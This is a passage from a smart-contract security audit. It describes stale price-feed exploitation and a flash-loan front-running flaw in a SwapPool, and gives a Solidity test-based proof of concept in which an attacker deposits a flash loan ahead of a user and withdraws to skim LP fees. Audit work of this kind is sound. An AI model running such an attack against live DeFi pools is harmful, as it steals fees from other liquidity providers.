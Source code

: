 For instance, if a swap pool asset is a highly volatile token whose price fluctuates within a minute, an attacker could exploit this by calling `redeemCrossSwapPoolShares()` without updating the price feeds, thus receiving the token at a discount.

**Recommendations**

Implement a standard function to compute a `_priceUpdateData` array for a specific asset to ensure that price feeds are consistently updated.

## Medium Risk
### [M-09] SwapPool's are vulnerable to flashloan attacks

**Severity**

**Impact:** High

**Likelihood:** Low

**Description**

SwapPool allows users to provide liquidity (LP) and earn fees. However, the ability for liquidity providers to deposit and withdraw within the same block makes the system vulnerable to flash loan attacks, which can exploit other LPs' rewards. A malicious user can front-run a legitimate deposit with a flash loan deposit and then back-run it with a withdrawal in the same block, effectively siphoning a portion of the LP fees. Below is a proof-of-concept demonstrating the attack:

```solidity
    function testFlahloan()
        public
        changeSwapPoolCoverageTo(pool, 0.3e18)
    {
        uint256 _accumulatedSlippageInitial = pool.reserveWithSlippage() -
            pool.reserve();

        // attacker frontrun the user deposit with 10m flashloan
        address attacker = makeAddr("attacker");
        uint256 flashloan = 10_000_000 ether;

        vm.startPrank(attacker);
        asset.approve(address(pool), MAX_UINT256);
        asset.mint(attacker, flashloan);
        (uint256 _lpTokens,) = pool.deposit(flashloan, 0, block.timestamp + USER_DEADLINE_TOLERANCE);
        vm.stopPrank();

        // user deposit 100k assets to the pool
        pool.deposit(
            100_000 ether,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE
        );

        // the attacker withdraw his shares and rip 0.01193665464548911 assets
        vm.prank(attacker);
        pool.withdraw(
            _lpTokens,
            flashloan,
            block.timestamp + USER_DEADLINE_TOLERANCE
        );
    }
```
